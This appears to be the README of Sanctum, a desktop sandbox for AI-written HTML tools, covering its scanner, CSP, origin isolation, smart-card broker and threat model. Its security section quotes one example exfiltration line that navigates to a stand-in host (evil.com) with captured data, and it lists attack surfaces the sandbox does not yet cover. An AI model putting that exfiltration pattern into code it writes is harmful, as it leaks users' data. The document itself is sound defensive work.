

<p align="center">
  
</p>

<p align="center">
  <a href="LICENSE"></a>&nbsp;
  &nbsp;
  <a href="https://github.com/Enigma-Technologies-Solutions/sanctum/actions/workflows/ci.yml"></a>&nbsp;
  
</p>

<br>

Sanctum is a desktop app for running the single-file HTML tools that AI models write.

When you add a tool, Sanctum scans the source and lists what it uses, such as the camera, network hosts, storage or geolocation. You choose which of those to allow. The tool then runs at its own origin under a Content Security Policy built from your choices, and anything you didn't allow is blocked before the tool's code runs.

Sanctum is at [sanctum.enigma.sh](https://sanctum.enigma.sh).

---

## How it works

| Step | What happens |
|------|-------------|
| **Ingest** | Paste from clipboard or load a file. The stored copy is recorded under its SHA-256. If that copy is later modified, the tool is quarantined and won't run. |
| **Scan** | Static analysis extracts capability signals: `fetch` calls, `getUserMedia`, `WebSocket` endpoints, `navigator.geolocation`, storage APIs, USB / HID / Bluetooth, and more. Literal URL hostnames are extracted from source. |
| **Approve** | A per-capability permission manifest is shown. Toggle each one. Network access is per host, so you can approve only the endpoints the tool needs. |
| **Run** | Tool opens in an isolated window at its own web origin (`sanctum-tool://tool-{id}/`). CSP enforces your approvals. The Tauri IPC bridge is removed by an initialization script before the tool's code executes. |

---

## Security model

**Layers, in enforcement order:**

**1. Origin isolation.** Each tool runs at a distinct `sanctum-tool://tool-{id}/` origin. `localStorage`, `IndexedDB`, cookies, and service workers are scoped per-origin by the WebView. Two tools can never read each other's storage.

**2. CSP enforcement.** Default is `connect-src 'none'` with every fetch-type directive denied. Approved network hosts are injected as explicit `https://` and `wss://` entries at window creation. Host strings are validated as DNS hostnames before they reach the policy, so a crafted URL in a tool cannot restructure the header. `form-action` stays `'none'` whatever you approve. It doesn't inherit from `default-src`, and a host you approved for fetches isn't approved as a navigation target.

**2a. Navigation confinement.** No CSP directive governs top-level navigation, so `connect-src 'none'` alone does not stop `location.href = 'https://evil.com/?' + data`. Tool windows are pinned to their own `sanctum-tool://` origin; every other scheme and host is refused, including `data:`, `file:` and other tools' origins.

**3. IPC removal.** An initialization script deletes all `__TAURI__*` globals from the window before the tool's HTML is parsed. The [tool capability set](src-tauri/capabilities/tool-default.json) is also empty, so every Tauri command is denied even if a tool recreates the IPC bootstrap.

**4. Integrity check.** The SHA-256 of the stored file is recomputed on every launch. On a mismatch Sanctum sets `quarantined = 1` in the database, doesn't create the window, and shows an error.

**5. Static scan (advisory only).** The scanner fills in the permission screen. It isn't a security control. Capabilities hidden behind dynamic string construction, obfuscation, or CDN-loaded scripts may be missed. The sandbox enforces limits either way.

**6. Signed updates.** Update manifests and payloads are verified against a minisign public key compiled into the binary. An unsigned or tampered update is rejected before it touches disk, so compromising the release host is not enough to push code to installs. Updates are never applied without an explicit click. The check runs in Rust, and no window is granted the updater's IPC commands, so a tool can't reach them.

> **What Sanctum does not prevent:** a tool using only the capabilities you approved, and then doing harmful things with them. Approve capabilities with the same care you'd give any permission prompt.

Detailed threat model and remaining v0 attack surface: see [SECURITY MODEL](#security-model-detail) below.  
Vulnerability disclosure policy: [SECURITY.md](SECURITY.md)  
Building tools that work within Sanctum: [SANCTUM_FOR_AGENTS.md](SANCTUM_FOR_AGENTS.md)

---

## Building from source

**Prerequisites:** Rust ≥ 1.77 · Node.js ≥ 20 · pnpm

```bash
git clone https://github.com/Enigma-Technologies-Solutions/sanctum
cd sanctum
pnpm install
pnpm tauri dev
```

On Linux you also need the GTK/WebKit and PC/SC development packages:

```bash
sudo apt install libwebkit2gtk-4.1-dev libgtk-3-dev libayatana-appindicator3-dev \
                 librsvg2-dev patchelf libpcsclite-dev
```

Release builds are produced by [.github/workflows/release.yml](.github/workflows/release.yml). macOS builds are signed with a Developer ID certificate and notarized; the job builds unsigned, with a warning, when the `APPLE_*` secrets are absent. Windows code signing (Azure Trusted Signing) is not wired yet.

### Raspberry Pi 400 / arm64 Linux

Two ways to get a build onto a Pi. Both target **Raspberry Pi OS Bookworm,
64-bit**. The 32-bit image won't work, because Tauri doesn't support WebKitGTK
on armhf in practice.

**Download a `.deb` from CI** (no build on the Pi):

Actions → *CI* or *Release* → run → artifacts → `linux-arm64`. Those jobs run on
`ubuntu-22.04-arm`, whose glibc (2.35) is older than Bookworm's (2.36), so the
package installs. An arm64 build made on 24.04 will not.

```bash
sudo apt install ./Sanctum_0.1.0_arm64.deb
```

**Or build on the Pi itself:**

```bash
./scripts/pi-setup.sh    # toolchain, PC/SC stack, Rust, Node, 2 GB swap
./scripts/pi-build.sh    # release build + .deb   (~25 min on a Pi 400)
./scripts/pi-build.sh --fast   # unoptimised binary, no bundle (~8 min)
```

`pi-build.sh` overrides the release profile through `CARGO_PROFILE_RELEASE_*`
rather than editing `Cargo.toml`: fat LTO with one codegen unit is right for a
shipped binary and wrong for four Cortex-A72 cores with 4 GB of RAM. It also
caps parallel jobs at 2, because the link step is where Pi builds get
OOM-killed.

**Smart cards on the Pi.** The `.deb` depends on `pcscd`, `libpcsclite1` and
`libccid`, so apt pulls the reader stack in. Confirm the daemon can see your
reader before blaming Sanctum:

```bash
systemctl status pcscd
pcsc_scan -r
```

A USB CCID reader on a Pi 400 is generally *steadier* than a bus-powered
contactless one on a laptop: contactless cards brown out during key generation
and go mute, which PC/SC reports as `MUTE` and Sanctum surfaces as a card that
needs re-presenting.

---

## Status

**v0.1.0** is the first release. [Download it from GitHub Releases](https://github.com/Enigma-Technologies-Solutions/sanctum/releases/latest). macOS builds are signed and notarized; Windows and Linux builds are unsigned.

| Feature | Status |
|---------|--------|
| Paste / file ingest | Done |
| SHA-256 versioning + quarantine | Done |
| Static capability scanner | Done (regex heuristics) |
| Dynamic CSP from approvals | Done |
| Per-tool origin isolation | Done |
| IPC removal | Done |
| SQLite library (list, tag, rollback) | Done |
| Smart card access, per applet | Done |
| Signed + notarized release builds | macOS done, Windows pending |
| Signed auto-updates | Wired up; first real test is the 0.1.1 update |
| AST-based scanner (catches obfuscation) | roadmap |
| Org policy file | roadmap |
| Tool registry / provenance | roadmap |

---

## Storage layout

```
{AppDataDir}/                      # macOS: ~/Library/Application Support/sh.enigma.sanctum
├── sanctum.db                     # SQLite: tool index, versions, manifests, approvals
└── tools/
    └── {tool_id}/                 # UUID v4
        └── versions/
            └── {sha256_hex}/      # content-addressed; immutable once written
                ├── index.html
                └── manifest.json  # derived capability manifest
```

No tool is ever executed from its original file path. Sanctum copies it into content-addressed storage first.

---

## Capability manifest

On ingest, Sanctum produces a derived manifest:

```json
{
  "name": "My AI Tool",
  "version": "1.0.1",
  "checksum": "sha256:3a4b5c...",
  "detected": ["camera", "microphone", {"net": ["api.example.com"]}, "storage"],
  "signature": null
}
```

Detected patterns:

| API pattern | Capability |
|-------------|-----------|
| `getUserMedia` | `camera` + `microphone` |
| `navigator.usb` | `usb` |
| `navigator.serial` | `serial` |
| `navigator.hid` | `hid` |
| `navigator.bluetooth` | `bluetooth` |
| `navigator.geolocation` / `getCurrentPosition` | `geolocation` |
| `new Notification` / `Notification.requestPermission` | `notifications` |
| `localStorage` / `sessionStorage` / `indexedDB` | `storage` |
| `fetch()` / `XMLHttpRequest` / `new WebSocket` + literal `https://` URLs | `{"net": ["hostname",...]}` |
| `sanctum.smartcard` + literal AIDs | `{"smartcard": ["a0000006472f0001",...]}` |

### Smart card access

Sanctum offers one capability that browsers don't: direct APDU exchange with a
smart card over the platform PC/SC stack. With it, a tool can drive a FIDO2 card
at the CTAP2 level, including extensions like `hmac-secret` that the WebAuthn
API doesn't expose to web pages.

Approval is **per applet** rather than per device. The scan pulls literal AIDs out of
the tool's source, and the prompt names them (`FIDO2 / WebAuthn (CTAP)`) so the
user is agreeing to something readable. A tool that builds its AID at run time
gets `(dynamic)`, which grants reader discovery and nothing else.

Approved tools get `window.sanctum.smartcard`, injected only when the grant
exists:

```js
const readers = await sanctum.smartcard.listReaders();
const session = await sanctum.smartcard.open(readers[0].name);
await session.select('a0000006472f0001');   // refused unless approved
const r = await session.transmit('80100000000001040000');  // CTAP2 getInfo
// r = { sw: 36864, ok: true, data: "00af01…" }
await session.close();
```

There is no Tauri IPC behind this. The methods fetch same-origin URLs under
`sanctum-tool://tool-{id}/__sanctum/v1/`, which the protocol handler answers in
Rust; the caller's identity is the webview label supplied by the runtime, never
anything the page can set. Enforcement lives in `smartcard.rs`:

| Guard | Effect |
|-------|--------|
| Capability check | No approval → no readers, no sessions, no APDUs. |
| AID allow-list | `select` refused unless that exact AID was approved. |
| No re-selection | Raw `transmit` refuses interindustry `SELECT`, `MANAGE CHANNEL`, `GET RESPONSE`, so a tool approved for FIDO can't pivot to PIV or OpenPGP on the same card. |
| Select-before-transmit | Raw APDUs are refused until an approved applet is selected. |
| Session ownership | Sessions are bound to the opening tool and dropped when its window closes. |
| Non-destructive disconnect | Every disconnect uses `LeaveCard`; Sanctum never power-cycles a card it did not have to. |

The one CSP change: an approved tool gets `connect-src 'self'`, which is its own
`sanctum-tool://` origin. It opens no path off the machine.

Scanner limitations: dynamic string construction, obfuscated/minified code, CDN-loaded scripts. The sandbox enforces limits regardless of what the scan finds.

---

## Security model detail

### What Sanctum prevents

| Threat | Mitigation |
|--------|-----------|
| Tool reads host filesystem | Zero `fs` capability. Protocol handler serves only the tool's own version directory; path traversal blocked at component level + `canonicalize`. |
| Tool calls Tauri IPC / OS APIs | `initialization_script` deletes all `__TAURI__*` globals before HTML parsing. `tool-default` capability set is empty. |
| Tool exfiltrates data over network | CSP `connect-src 'none'` injected by the protocol handler on every response. Enforced at the WebView level. |
| One tool reads another's storage | Distinct `sanctum-tool://tool-{id}/` origins. Verified: write a key in tool-A's `localStorage`; tool-B (different ID) returns `null`. |
| Tampered stored file runs | SHA-256 recomputed on every `open_tool_window`. Mismatch → quarantine → no window. |
| Tool reaches a card applet it was not approved for | AID allow-list on `select`; interindustry `SELECT`/`MANAGE CHANNEL` refused on the raw channel, so the selected applet cannot change mid-session. |
| Path traversal | Component-by-component check (reject `..`, absolute, prefix) + `canonicalize` confirmation. |

### What Sanctum does not prevent (v0)

- **Phishing / fake UI.** A tool can display anything. The `⚠ Third-party tool` window title and capability summary are the only mitigations.
- **LAN timing probes.** `connect-src 'none'` blocks HTTP exfiltration but not timing-based side channels via `` data URIs. Navigation to loopback (`*.localhost`) is permitted on Windows, where the custom protocol is served over `http://<scheme>.localhost`; that path has not yet been verified on a real Windows build.
- **Cross-tool CPU/memory timing.** Tools share one Tauri process, so OS-level side channels exist.
- **Tool crashing the host.** The tool window and host share one Tauri process. A WebKit crash in a tool takes down the app.

### Open source note

Sanctum's own code is open to audit. That says nothing about the tools you run in it, so treat every third-party tool as untrusted.

---

## Module map

```
src-tauri/src/
├── lib.rs              app setup, sanctum-tool:// protocol handler, state
├── db.rs               SQLite pool, migrations
├── models.rs           ToolRecord, VersionRecord, ToolManifest, DetectedCapability
├── signing.rs          Ed25519 verification seam (v1)
├── device_broker.rs    hardware consent / elevation stub (v1)
├── smartcard.rs        PC/SC broker: AID allow-list, APDU policy, sessions
├── policy.rs           org policy file stub (v2)
├── registry.rs         server-side provenance client stub (v3)
└── commands/
    ├── ingest.rs       ingest_html, ingest_from_clipboard, ingest_from_path
    ├── library.rs      list_tools, get_tool, update_metadata, delete_tool
    ├── versioning.rs   create_version, rollback_version, compute_checksum
    ├── scan.rs         scan_capabilities, capabilities_for_manifest
    ├── approvals.rs    update_approvals
    └── runner.rs       open_tool_window (integrity check + dynamic CSP + window)
```

---

## License

**Community:** [AGPL-3.0-only](LICENSE). Embedding Sanctum in a commercial product requires either open-sourcing that product under the same terms or a commercial license.

**Commercial licensing:** [ultra@enigma.sh](mailto:ultra@enigma.sh)

---

<p align="center">
  <sub>By <a href="https://enigma.sh">Enigma Technologies Solutions</a> &nbsp;·&nbsp; cryptography &amp; Web3 education</sub>
</p>
